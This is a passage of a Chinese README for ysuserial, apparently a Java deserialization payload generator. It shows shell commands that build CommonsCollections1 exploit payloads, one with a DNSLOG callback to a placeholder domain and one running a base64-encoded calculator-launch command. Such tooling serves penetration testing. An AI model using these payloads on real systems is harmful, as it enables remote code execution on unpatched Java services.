 **DNSLOG示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'DL-xxx.org'
```

效果图：

![image-20220618204249501](images/image-20220618204249501.png)

**脚本引擎解析 JS 代码示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：
